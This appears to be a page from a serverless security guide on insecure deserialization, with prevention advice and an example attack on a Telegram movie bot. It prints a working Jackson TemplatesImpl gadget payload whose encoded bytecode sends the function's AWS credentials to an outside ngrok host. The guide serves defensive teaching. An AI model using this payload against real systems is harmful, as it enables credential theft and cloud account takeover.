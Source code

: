 # S8:2017 Insecure Deserialization

## Attack Vectors

Dynamic languages like Python and NodeJS, together with the common use of JSON, a serialized data type, could make deserialization attacks a little more common in the serverless world.

## Security Weakness

Together with the possible attack vector, the fact that most functions use 3rd-party libraries to handle the (de)serialization of the data could introduce such weakness to our serverless application. Deserialization vulnerabilities are pretty common in Python (e.g. [pickle](http://xhyumiracle.com/python-pickle-injection)) and JavaScript ([node-serialize](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)). But could also be found in [.NET and Java](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf).

## Impact

As usual, the business impact depends on the application and the data it handles. Insecure deserialization usually results in running arbitrary code that could eventually lead to data leakage and, in severe cases, even resource and account control.

## How to Prevent

- Validate serialized objects, originating from any untrusted data (e.g. cloud storage, databases, emails, notifications, APIs) by enforcing strict type constraints before processing it.
- Review 3rd-party libraries for known deserialization vulnerabilities.
- It is also a good practice to monitor deserialization usage and exceptions to identify possible attacks.

## Example Attack Scenario

An application is using a Telegram chat Bot agent to provide information about movies. To do so, a function is triggered when text messages are received (via API GW), taking the input and returning data related to the requested movie using the Open Movie Database (OMDb) API. However, the JsonMapper class is using JSON deserialization, by calling jackson.databind.ObjectMapper.readValue() which is known to be vulnerable.

![Insecure Deserialization 1](images/0xS8-insecure-deserialization-1.png)

This allows any unauthenticated telegram user to send malicious content via text and without performing input validation. To exploit it, the attacker needs to send a Java serialized object in the telegram text which will be translated into a JSON as part of the Bot API request.

![Insecure Deserialization 2](images/0xS8-insecure-deserialization-2.png)

By using the following payload, attackers can steal AWS environment data such as `AWS_SESSION_TOKEN`, `AWS_SECRET_ACCESS_KEY`, `AWS_SECURITY_TOKEN`, which could be used to create an AWS [AssumeRole](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role.html) and access AWS resources.

```
{ 'id': 124,
  'obj':[ 'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',
    {
    'transletBytecodes' :
  ['yv66vgAAADQAHgoABgARCgASABMIABQKABIAFQcAFgcAFwEABjxpbml0PgEAAygpVgEABENvZG
  UBAA9MaW5lTnVtYmVyVGFibGUBAARtYWluAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgEACkV
  4Y2VwdGlvbnMHABgBAApTb3VyY2VGaWxlAQAMcGF5bG9hZC5qYXZhDAAHAAgHABkMABoAGw
  EAR2Vudj1gZW52fGJhc2U2NCAtLXdyYXA9MGA7IGN1cmwgaHR0cDovL3Byb3RlZ29sYWJzLm5nc
  m9rLmlvP2RhdGE9JHtlbnZ9DAAcAB0BAAdwYXlsb2FkAQAQamF2YS9sYW5nL09iamVjdAEAE2phd
  mEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxq
  YXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5n
  L1Byb2Nlc3M7ACEABQAGAAAAAAACAAEABwAIAAEACQAAAB0AAQABAAAABSq3AAGxAAAAAQA
  KAAAABgABAAAAAQAJAAsADAACAAkAAAAmAAIAAgAAAAq4AAISA7YABEyxAAAAAQAKAAAACgA
  CAAAABAAJAAUADQAAAAQAAQAOAAEADwAAAAIAEA=='],
      'transletName' : 'a.b',
      'outputProperties' : { }
    }
  ]
}
```

When the code runs, it will launch a new process which will send the environment credentials to the attacker. This could eventually lead to invoking the function manually, providing it with any type of input which can end in a complete takeover of cloud resources, depending on the permissions of the function.

![Insecure Deserialization 3](images/0xS8-insecure-deserialization-3.png)